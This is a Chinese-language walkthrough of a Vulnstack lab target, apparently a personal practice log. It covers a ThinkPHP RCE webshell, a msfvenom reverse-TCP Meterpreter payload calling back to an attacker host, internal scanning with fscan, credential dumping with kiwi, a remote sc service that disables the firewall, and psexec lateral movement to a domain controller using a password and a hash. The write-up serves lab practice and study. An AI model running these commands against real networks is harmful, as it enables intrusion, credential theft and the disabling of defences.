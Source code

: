 ## 文章

http://vulnstack.qiyuanxuetang.net/vuln/detail/7/

[打靶WP](https://mp.weixin.qq.com/s/RViKCbpYqBYYDofpHLTCKA)

[环境搭建](https://www.bilibili.com/video/BV1eB4y177fs/?spm_id_from=333.999.0.0&vd_source=c1315f6e47145c74f7c3b5f579a7e70d)

## 打靶过程

先用 [thinkphp5.0.23 invokefunction RCE漏洞](F:\LocalCTF\thinkphp5.0.23 invokefunction RCE漏洞 详细分析与复现 - FreeBuf网络安全行业门户.pdf) 写入一句话木马

![image-20230928184457258](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230928184457258.png)

成功写入木马

![image-20230928184522835](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230928184522835.png)

用哥斯拉来管理Webshell

![image-20230928184637829](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230928184637829.png)

用msf生成反向连接木马

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.135.128 LPORT=4444 -f exe -o Ki1ro.exe
```

![image-20230928185434893](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230928185434893.png)

msf 开启监听，执行木马文件，成功上线

![image-20230928185614800](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230928185614800.png)

上传fscan，用fscan扫一下内网

```bash
fscan64.exe -h 192.168.138.136/24
```

![image-20230928191333108](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230928191333108.png)

有ms17-010，但因为域控机有防火墙，所以无法成功利用

但因为我们拿下的136主机本身具有域管理员账号

并且通过load kiwi，我们获取了域管理员的密码

![image-20230928210535960](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230928210535960.png)

通过sc（系统服务）来关闭防火墙

```bash
net use \\192.168.138.138\ipc$ "@Abc807723" /user:"administrator"
sc \\192.168.138.138 create unablefirewall binpath= "netsh advfirewall set allprofiles state off"    # 创建服务
sc \\192.168.138.138 start unablefirewall    # 立即启动服务
```

有了域管理管理员，我们可以直接用psexec来横向移动到域控主机，并以域管理管理员身份登录

```bash
use exploit/windows/smb/psexec
set rhosts 192.168.138.138
set SMBDomain SUN
set SMBUser administrator
set SMBPass dc123.com
# set SMBPass c8c42d085b5e3da2e9260223765451f1:e8bea972b3549868cecd667a64a6ac46
set payload windows/meterpreter/bind_tcp
set rhost 192.168.138.138
run
```

![image-20230928210804560](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230928210804560.png)

至此，两台主机都成功上线